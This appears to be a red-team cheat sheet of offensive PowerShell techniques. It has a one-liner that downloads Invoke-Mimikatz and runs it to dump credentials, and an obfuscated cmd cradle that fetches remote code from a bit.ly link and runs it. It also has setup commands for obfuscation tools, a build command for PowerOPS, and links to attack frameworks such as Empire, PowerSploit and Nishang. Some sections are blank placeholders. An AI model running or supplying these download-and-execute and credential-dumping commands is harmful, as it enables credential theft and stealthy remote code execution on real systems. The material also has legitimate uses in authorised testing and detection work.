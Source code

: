 

# Powershell

Every product today reports they can prevent fileless, living off the land, nation state :all_the_things: . I say - prove it.

http://www.labofapenetrationtester.com/2015/04/pillage-the-village-powershell-version.html

https://www.blackhillsinfosec.com/?p=5831

## One Liners

### Download Mimikatz and Dump credentials

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

### Obfuscated Powershell

Fancy obfuscation that reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

## Powershell Obfuscation

Provided by @danielbohannon

[Out-FINcodedCommand](https://github.com/danielbohannon/Out-FINcodedCommand/blob/master/README.md)


Setup:

    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/danielbohannon/Out-FINcodedCommand/master/Out-FINcodedCommand.ps1')

Input:

    Out-FINcodedCommand -command "iex (iwr http://bit.ly/L3g1t).content" -FinalBinary powershell

Follow prompts to create variables.

Output:

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"



[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

Input:

    code here

Output:

    code here

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Input:

    code here

Output:

    code here

## Powershell Kits

### Empire

http://www.powershellempire.com/

### Bloodhound

https://github.com/BloodHoundAD/BloodHound

### GoFetch

https://github.com/GoFetchAD/GoFetch

### Deathstar

https://github.com/byt3bl33d3r/DeathStar

https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html

### PowerSploit

https://github.com/PowerShellMafia/PowerSploit

### Nishang

https://github.com/samratashok/nishang

### PSAttack

https://github.com/jaredhaight/PSAttack

### Dr0p1t-Framework

https://github.com/D4Vinci/Dr0p1t-Framework

### PowerOPS

https://github.com/fdiskyou/PowerOPS

    Copy ([PSObject].Assembly.Location) C:\

Then:

    csc.exe /unsafe /reference:"C:\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\users\ieuser\desktop\PowerOPS_x64.exe /platform:x64 "C:\C:\Users\IEUser\Downloads\PowerOPS-1.0-beta\PowerOps\*.cs"

# Other

### DNScat2-powershell

https://github.com/lukebaggett/dnscat2-powershell
